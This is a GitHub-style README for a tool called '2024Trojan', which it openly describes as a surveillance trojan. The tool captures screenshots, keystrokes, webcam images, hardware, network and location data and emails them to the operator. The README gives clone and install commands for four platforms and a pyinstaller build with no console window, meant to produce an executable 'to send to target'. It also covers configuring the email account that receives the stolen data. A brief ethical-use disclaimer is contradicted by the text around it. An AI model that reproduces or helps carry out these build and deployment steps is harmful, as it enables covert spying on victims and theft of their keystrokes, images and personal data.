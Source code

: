 Trojan 2024: A Multi-Platform Information Gathering Script .

Features :
=======
Screenshots
Keystrokes
Hardware and network information
Geolocation data
Front camera captures
All data is securely delivered via email for your convenience.

Key Features
=======
Screenshot Capture: Automatically captures desktop activity every 60 seconds.
Keylogging: Records typed text at configurable intervals.
Hardware Information: Retrieves details like CPU, GPU, and RAM specs.
Network Data: Captures IP addresses, MAC addresses, and more.
Geolocation Tracking: Provides approximate location details.
Camera Access: Takes images using the front camera (if available).


How to install .
=====
Installation and Setup
Windows
Open PowerShell or Command Prompt.
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojan
pip install -r requirements.txt
python Run.py

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py



macOS



Open the Terminal.

Clone this repository

git clone https://github.com/BlackNode-stack/2024Trojan.git

cd 2024Trojan

python3 -m pip install -r requirements.txt

python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Termux (Android)

Install Termux from F-Droid or the Google Play Store.

Update packages

pkg update && pkg upgrade

pkg install git python

git clone https://github.com/BlackNode-stack/2024Trojan.git

cd 2024Trojanpip install -r requirements.txt

python Run.py

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Linux
Open the Terminal.
Clone this repository
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojan
python3 -m pip install -r requirements.txt
python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Usage Instructions
Email Configuration
During setup, you’ll need to provide:

The sender email.
The app password (generated through your email provider).
The recipient email address for receiving data.
Follow the platform-specific instructions to execute the script and ensure that data is sent correctly to your email.

Support
BTC Wallet: bc1q3kqdczj6q780y642yq9dvvfuk43g5a5uxn83f2
Ethereum Wallet: 0xE8e903eE127113c30aFd52acbDbdB567968534Ea
Feel free to support or donate if this tool was helpful to you! 😊

Disclaimer
Warning: This tool is intended for ethical and legal purposes only, such as cybersecurity research and penetration testing (with proper authorization). Unauthorized or malicious use of this script is illegal.

"Your defenses are paper walls against my storm. Every keystroke whispers your secrets; every shadow hides my trace. By the time you notice, I'll already be gone... or maybe I’ll just be watching."
